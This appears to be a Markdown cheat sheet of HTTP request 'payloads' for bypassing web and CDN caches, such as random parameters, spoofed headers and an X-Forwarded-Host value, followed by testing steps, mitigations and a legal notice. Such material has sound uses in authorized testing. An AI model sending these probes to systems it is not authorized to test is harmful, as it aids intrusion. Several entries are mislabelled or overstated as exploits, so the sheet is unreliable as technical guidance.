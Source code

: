 # **Cache Bypass Payload Cheat Sheet**

Cache bypass techniques allow attackers to circumvent caching mechanisms and access fresh (potentially sensitive) content from the origin server. Below are various payloads for testing cache validation vulnerabilities.

## **1. Basic Cache Bypass Techniques**

### **Cache Buster Parameters**
```http
GET /account?cb=123456789 HTTP/1.1
GET /profile?timestamp=1680000000 HTTP/1.1
```

### **Randomized Headers**
```http
GET / HTTP/1.1
Host: example.com
X-Random-Header: 5f8d2e1c
```

## **2. Header-Based Cache Bypass**

### **Vary Header Manipulation**
```http
GET /admin HTTP/1.1
Host: example.com
User-Agent: Mozilla/1.0 (Bypass 1.0)
Accept-Language: zh-CN
```

### **Cookie-Based Cache Invalidation**
```http
GET /dashboard HTTP/1.1
Host: example.com
Cookie: bypass_cache=1
```

## **3. Advanced Cache Bypass Methods**

### **HTTP/2 Cache Probing**
```http
:method: GET
:path: /settings
:authority: example.com
cache-buster: a1b2c3d4
```

### **Cache Key Normalization Exploits**
```http
GET /profile HTTP/1.1
Host: example.com
X-Forwarded-Host: bypass.example.com
```

## **4. Browser Cache Bypass**

### **Hard Refresh Payloads**
```html
<a href="/private" onclick="location.reload(true)">Force Refresh</a>
```

### **Cache-Control Override**
```http
GET /api/data HTTP/1.1
Host: example.com
Cache-Control: no-store, max-age=0
Pragma: no-cache
```

## **5. CDN-Specific Bypass Techniques**

### **CloudFront Bypass**
```http
GET / HTTP/1.1
Host: example.com
X-Forwarded-Port: 12345
```

### **Akamai Cache Bypass**
```http
GET /secret.txt HTTP/1.1
Host: example.com
Pragma: akamai-x-get-cache-key
```

## **6. Real-World Exploit Examples**

### **Bypassing Cached Authentication Pages**
```http
GET /login?nocache=1 HTTP/1.1
Host: example.com
Authorization: Basic invalid
```

### **Accessing Uncached API Responses**
```http
GET /api/users?sort=random() HTTP/1.1
Host: example.com
X-Request-ID: 7d3e9f1a
```

## **Testing Methodology**
1. Identify cacheable endpoints
2. Test with random parameters/headers
3. Verify `X-Cache` response headers
4. Check for cache key normalization issues
5. Attempt to force origin hits

## **Mitigation**
- Implement proper cache validation
- Use strong cache keys
- Set appropriate Cache-Control headers
- Regularly audit caching rules

## **Legal Notice**
Use these techniques only on authorized systems. Unauthorized testing may violate laws.
